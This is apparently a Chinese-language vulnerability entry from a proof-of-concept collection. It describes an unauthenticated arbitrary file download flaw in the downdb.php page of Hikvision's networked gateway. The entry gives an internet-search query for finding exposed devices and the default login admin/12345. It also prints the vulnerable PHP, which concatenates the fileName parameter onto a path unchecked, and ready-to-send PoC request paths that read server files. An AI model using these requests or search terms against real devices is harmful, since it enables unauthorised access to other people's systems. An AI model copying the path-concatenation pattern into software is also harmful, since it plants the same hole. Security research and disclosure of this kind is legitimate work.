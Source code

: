 # HIKVISION 联网网关 downdb.php 任意文件读取漏洞

# HIKVISION 联网网关 downdb.php 任意文件读取漏洞

## 漏洞描述

海康威视 联网网关 在页面 downdb.php 的参数fileName存在任意文件下载漏洞

## 漏洞影响

```
HIKVISION 联网网关，流媒体管理服务器
```

## 网络测绘

```
"杭州海康威视系统技术有限公司 版权所有" && title=="联网网关"
```

## 漏洞复现

默认密码：`admin/12345`

![image-20220519174002167](/images/202205191740359.png)

出现漏洞的代码文件为downdb.php，可以未授权下载任意文件：

```
<?php
$file_name=$_GET['fileName'];
$file_dir = "../../../";
if   (!file_exists($file_dir.$file_name))   {   //检查文件是否存在  
  echo'<script> alert("文件不存在!");window.history.back(-1);</script>'; 
  exit();

}else{	
	$file = fopen($file_dir . $file_name,"r"); // 打开文件
	// 输入文件标签
	Header("Content-type: application/octet-stream");
	Header("Accept-Ranges: bytes");
	Header("Accept-Length: ".filesize($file_dir . $file_name));
	Header("Content-Disposition: attachment; filename=" . $file_name);
	// 输出文件内容
	echo fread($file,filesize($file_dir.$file_name));
	fclose($file);
	exit();
}
?> 
```

POC：

```
/localDomain/downdb.php?fileName=web/html/data/login.php
/localDomain/downdb.php?fileName=web/html/localDomain/downdb.php
```

![image-20220519174022222](/images/202205191740299.png)

